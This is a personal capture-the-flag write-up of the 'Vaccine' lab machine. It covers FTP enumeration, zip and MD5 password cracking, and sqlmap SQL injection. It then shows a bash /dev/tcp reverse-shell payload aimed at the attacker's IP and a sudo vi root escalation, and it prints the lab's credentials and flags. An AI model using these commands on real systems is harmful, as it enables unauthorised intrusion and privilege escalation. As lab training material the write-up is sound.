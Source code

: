 ```yaml
---
title: Vaccine
updated: 2023-02-04T17:29:37.0000000+00:00
created: 2023-02-04T12:42:48.0000000+00:00
date modified: Monday, May 13th 2024, 10:57:30 pm
---
```


Enumeration:

Initial nmap scan:
![image1](../../../../../_resources/image1-63.png)

Looking at cookies, we find that PHP is being used. Wappalyzer tells us the same thing:
![image2](../../../../../_resources/image2-48.png)
Let's try to connect to the FTP port and see if there is anything juicy, we can log into the ftp anonymously by not inputting any creds when prompted:
![image3](../../../../../_resources/image3-41.png)

**Common FTP Commands:**

- *Bye/quit*
  - *Exits the FTP environment*
- *?*
  - *Gives a list of commands*
- *Cd*
  - *Changing Directory*
- *Ls*
  - *Listing directories/files*
- *Pwd*
  - *Listing current working directory.*
- *Get*
  - *Get the file and download it to our local machine.*

Sadly, none of these work, since we aren't authenticated:
![image4](../../../../../_resources/image4-33.png)

**HINT -** nmap -sC:

When we use the **-sC** flag with nmap we perform a **script scan**. Which will give us more information about what is running on each port. In relation to FTP, we can see that:

- *We are logged in as ftpuser*
- *vsftpd 3.0.3 is running*
- *Anonymous FTP is allowed and there is a file named b**ackup.zip***

*We can log in using the username **anonymous** and we can now execute commands. Let's download the backup.zip file:*
![image5](../../../../../_resources/image5-23.png)
(Make sure to change directory to where you want to download the file on your local machine.)

Unzipping backup:

When we try to unzip the file - we figure out that they require passwords:
![image6](../../../../../_resources/image6-15.png)
(Trying common passwords like "admin" "password", etc doesn't work.)

It looks like we can use **John The Ripper** to try and crack open the backup.zip file. There appears to be a script named **zip2john** which can be used for this [purpose.](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)

You can use **zip2john** to get password hashes from a zip file:
![image7](../../../../../_resources/image7-12.png)
(This allows us to save the hash into a text file).

We then run **John The Ripper** on the hashes:
![image8](../../../../../_resources/image8-10.png)

We can the use --show to see the creds:
![image9](../../../../../_resources/image9-9.png)
(Normally this takes hours to do, but in our case it took like 1 second).
**Password - 741852963**

We can finally unzip the backup folder:
![image10](../../../../../_resources/image10-7.png)
Password Cracking:

Now that we have the folder unzipped, we can check the index.php file and we find admin creds:
![image11](../../../../../_resources/image11-6.png)

**Username: admin**
**Hashed Password: 2cb42f8734ea607eefed3b70af13bbd3**

We can use **hashid** to list what hashes are possible:
![image12](../../../../../_resources/image12-4.png)
(There is loads, but we should try MD5 first).
Now we need to figure out how to [unhash the md5 password](https://www.4armed.com/blog/hashcat-crack-md5-hashes/#:~:text=How%20to%20Crack%20MD5%20Hashes%20Using%20hashcat%201,how%20to%20crack%20MD5%20hashes%20using%20hashcat.%20)**.** For this purpose we can use hashcat:
![image13](../../../../../_resources/image13-3.png)
(-m 0 means md5, and we just input our hash).

This doesn't work since we don't have enough device memory. We should try a **dictionary attack** instead:
![image14](../../../../../_resources/image14-3.png)

Again this fails. It looks like we are having a memory problem?
![image15](../../../../../_resources/image15-3.png)

After giving my VM more RAM access and more processing power, hashcat is still fucked…

The password is: **qwerty789**

Foothold:

Now that we are inside the admin portal, we can use the Search bar to execute queries on the car catalogue:
![image16](../../../../../_resources/image16-3.png)

We can test this for a SQL injection, we can do this manually or we can use the tool **SQL map -** which is a too that detects SQL injection flaws.

To use SQL map we need a few different nuggets of information:
1.  URL
    1.  <http://10.129.213.60/dashboard.php?search=Beans>
2.  Cookie
    1.  We need the PHP cookie:
    2.  PHPSESSID=149dhpuk7v0ki4o5f0hlg0ratm

We can now run sqlmap:
![image17](../../../../../_resources/image17-3.png)

Importantly, we see:
![image18](../../../../../_resources/image18-3.png)
We can use the **--os-shell** flag so that we can perform command injection:
![image19](../../../../../_resources/image19-2.png)

Upgrading the os-shell:

1.  Start a netcat listener
2.  Execute the following payload on the target machine:
    1.  bash -c "bash -i \>& /dev/tcp/{your_IP}/443 0\>&1"
    2.  bash -c "bash -i \>& /dev/tcp/10.10.14.8/443 0\>&1"
3.  Now that our netcat listener has the shell, we make it fully interactive
python3 -c 'import pty;pty.spawn("/bin/bash")'

CTRL+Z

stty raw -echo

Fg

export TERM=xterm

Finally, we can access the user flag inside, /var/lib/postgresql:
![image20](../../../../../_resources/image20-2.png)
**User Flag-** ec9b13ca4d6229cd5cc1e09980965bf7

Privilege Escalation:

Now that we are the user **postgres**, however we don't know the password for it, meaning we cannot use **sudo -l** to look at our privileges. We can find these details inside /var/ww/html inside the PHP and SQL files, meaning we can maybe find some cleartext details.

Inside dashboard.php:
![image21](../../../../../_resources/image21-2.png)
**Username -** postgres
**Password -** P@s5w0rd!

**(If the shell dies, we can use SSH to now login) -**
![image22](../../../../../_resources/image22-2.png)

Now we can run sudo -l:
![image23](../../../../../_resources/image23-2.png)

Getting root:

Now that we see that we can **run sudo /bin/vi** on pg_hba.conf, this could accelerate us to root, we need to exploit it, we can look at [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo) to see if we can find an exploit. We can use command like so:

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf -c ':!/bin/sh' /dev/null

But it doesn't work:
![image24](../../../../../_resources/image24-2.png)

There is an alternative method, in which we try to open vi as root:
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

This works:
![image25](../../../../../_resources/image25-2.png)

We can insert text into vi using :, then typing:
![image26](../../../../../_resources/image26-2.png)

Then we type **:shell,** this gives us root:
![image27](../../../../../_resources/image27-1.png)

We then find the root flag inside root:
![image28](../../../../../_resources/image28-1.png)

**Root flag -** dd6e058e814260bc70e9bbdef2715849

